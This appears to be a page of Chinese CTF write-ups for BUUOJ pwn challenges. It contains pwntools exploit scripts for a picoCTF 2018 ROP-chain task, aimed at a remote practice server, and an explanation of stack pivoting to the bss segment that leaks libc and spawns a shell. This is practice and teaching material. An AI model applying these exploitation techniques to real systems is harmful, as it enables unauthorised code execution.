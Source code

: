 ```python
payload += p32(binsh)

io.sendline(payload)

io.interactive()
```
# buu033-picoctf_2018_rop chain

```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29541)
elf = ELF('./pwn')

payload = cyclic(0x18 + 4)
payload += p32(elf.symbols['win_function1'])
payload += p32(elf.symbols['win_function2']) + p32(elf.symbols['flag'])
payload += p32(0xBAAAAAAD) + p32(0xDEADBAAD)

io.sendlineafter(b'Enter your input> ', payload)

io.interactive()
```
# buu034-[Black Watch 入群题]PWN
bss段给了一大块空间，推测考察栈迁移。
```c
ssize_t vul_function()
{
  size_t v0; // eax
  size_t v1; // eax
  char buf[24]; // [esp+0h] [ebp-18h] BYREF

  v0 = strlen(m1);
  write(1, m1, v0);
  read(0, s, 0x200u);
  v1 = strlen(m2);
  write(1, m2, v1);
  return read(0, buf, 0x20u);
}
```
最后一个read的溢出只能覆盖返回地址，因此是栈迁移无疑，将栈转移到bss段。
本题要明确leave指令的作用，其相当于'mov esp, ebp; pop ebp'。我们传入的第一个payload在bss段上，作为伪造的栈区备用；第二个payload中，我们修改了ebp处的值为bss段地址，但此时esp仍然在原来的栈上，不过我们可以将返回地址写到'leave'指令，让程序再一次执行leave指令，由于此时ebp已经被修改为bss段地址，因此此时esp就被成功修改。注意后面的pop ebp指令中pop出来的值已经是bss段上的值了。

在pop之后，esp应指向s+4的位置，这里我们写入write函数读取libc基地址，然后返回到vul_function中，因为vul_function中能够直接在s中写入很多字节，因此就相当于我们直接修改ebp后面的返回地址。将获取的system函数和'/bin/sh'字符串地址写入即可getshell。
